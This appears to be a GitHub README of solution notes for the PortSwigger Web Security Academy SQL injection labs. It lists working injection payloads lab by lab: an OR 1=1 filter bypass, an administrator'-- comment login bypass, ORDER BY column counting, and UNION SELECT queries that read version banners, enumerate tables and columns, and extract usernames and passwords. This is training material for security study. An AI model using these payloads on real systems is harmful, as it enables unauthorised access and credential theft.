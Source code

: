 # SQL injection


 * [sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

>**Q. SELECT * FROM products WHERE category = 'Gifts' AND released = 1 **

```sh
'+OR+1=1--
```

### Lab2: SQL injection vulnerability allowing login bypass
>**Q. To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. **

```sh
administrator'--
```
### Lab3: SQL injection attack, querying the database type and version on Oracle

```sh
'+UNION+SELECT+'abc','def'+FROM+dual--
```
```sh
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

### Lab4: SQL injection attack, querying the database type and version on MySQL and Microsoft

  ```sh
  order by 2#
  ```

  ```sh
  union select 1,2#
  ```

  ```sh
  union select 1,@@version#
  ```
### Lab5: SQL injection attack, listing the database contents on non-Oracle databases

  ```sh
  order by 2--
  ```
  ```sh
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
  ```
  ```sh
'+UNION+SELECT+column_name,table_name+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
  ```
  ```sh
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
  ```
### Lab6: SQL injection attack, listing the database contents on Oracle
```sh
order by 2--
```
```sh
'+UNION+SELECT+null,null+FROM+dual--
```
```sh
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```
```sh
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
```
```sh
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```
### Lab7: SQL injection UNION attack, determining the number of columns returned by the query
```sh
order by 3--
```
```sh
'union select null,null,null--
```
### Lab8: SQL injection UNION attack, finding a column containing text
```sh
'+UNION+SELECT+NULL,'a',NULL--
```
```sh
'+UNION+SELECT+NULL,'273Yf9bW',NULL--
```
### Lab9: SQL injection UNION attack, retrieving data from other tables
```sh
'+UNION+SELECT+null,null--
```
```sh
'+UNION+SELECT+null,table_name+from+information_schema.tables--
```
```sh
'+UNION+SELECT+column_name,table_name+from+information_schema.columns+where+table_name='users'--
```
```sh
'+UNION+SELECT+user,password+from+user--
```
### Lab10: SQL injection UNION attack, retrieving multiple values in a single column
```sh
'+UNION+SELECT+NULL,'a'--
```
```sh
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```
/

```sh
'+UNION+SELECT+NULL,username||password+FROM+users--
```

























